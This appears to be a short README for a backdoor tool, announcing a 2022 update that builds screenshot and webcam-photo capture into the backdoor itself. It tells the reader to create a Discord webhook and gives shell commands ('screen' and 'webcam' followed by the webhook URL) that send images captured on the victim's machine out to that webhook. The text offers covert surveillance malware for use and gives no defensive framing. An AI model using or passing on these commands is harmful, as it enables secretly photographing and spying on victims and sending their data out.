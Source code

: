 THIS BACKDOOR IS UPDATED ON 25-07-2022

IN THIS UPDATE I REMOVED THE "server.py", I ADDED THE SCREENSHOT AND WEBCAM (only photo) FEATURE IN THE BACKDOOR ITSELF :)

Here u can see how to run the screenshot and webcam feature:-

1. Make a discord server.
2. Copy it's webhook url (see it on youtube, it's fucking easy)

NOW ASSUME THAT IT'S THE SHELL...

For Screenshot:
[*] >> screen https://discord.com/api/webhooks/your_webhook_url_that_u_copied

For Webcam:
[*] >> webcam https://discord.com/api/webhooks/your_webhook_url_that_u_copied

